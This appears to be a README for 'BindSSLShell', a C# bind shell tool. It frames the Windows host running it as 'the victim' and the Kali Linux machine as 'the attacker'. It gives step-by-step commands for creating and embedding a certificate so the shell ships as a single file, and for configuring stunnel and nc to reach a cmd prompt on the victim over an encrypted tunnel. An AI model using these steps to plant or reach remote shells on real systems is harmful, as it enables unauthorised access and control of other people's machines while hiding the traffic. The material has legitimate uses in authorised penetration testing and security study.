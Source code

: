 # BindSSLShell
How to BSOS [Bindshell over SSL] ver 1.0

* -Server (the victim): BindSSLShell.exe, console application coded in C# (FW Net 3.5) IDE Visual Studio CE 2017
* -Client (the attacker): Kali Linux with stunnel installed
<br/>
For the server side (the victim)


1. create the certificate:
   1. move to the makecert location, in my case C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x64
   1. open a cmd as administrator and execute the following: makecert.exe -r -pe -n "CN=localhost" -sky exchange -sv server.pvk server.cer
   1. enter required password, then execute: pvk2pfx -pvk server.pvk -spc server.cer -pfx server.pfx. Enter required server password
1. include the Server.pfx as resource in your VS project (console app) and set the Copy to the output directory as Copy. Eventually you can embed the certificate and load it at runtime, more info: https://stackoverflow.com/questions/3314140/how-to-read-embedded-resource-text-file, so you will have to deploy a single file.
<br/>	
In our attacker machine (Kali Linux) we will use stunnel (since the server require SSL) in conjunction with nc
1 install stunnel:
	apt-get install stunnel

2 configure stunnel to forward nc traffic over his ssl tunnel. we must create the file /etc/stunnel/stunnel.conf with the following content:
	[nc]
	client = yes
	accept = localhost:8443
	connect = <Victim IP>:6666
	--- end of file ---
	so we listeng on the port 8443 and we forward the traffic to the victim IP port 6666. Of coures you have to set the Victim Ip (server side) value according
	
3 start stunnel
	service stunnel4 start
		
4 check if it's running (optional)
	# netstat -tulp
	
	the output should be similar to:
	
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	tcp        0      0 localhost:8443          0.0.0.0:*               LISTEN      1156/stunnel4       
	tcp6       0      0 localhost:8443          [::]:*                  LISTEN      1156/stunnel4       

5 presuming that you already lunched the bindshell on the victim you can connect to it through the tunnel:
	nc localhost 8443
	
6 you should get a cmd prompt
	


	



![...](img/shel_ssl.png?raw=true)
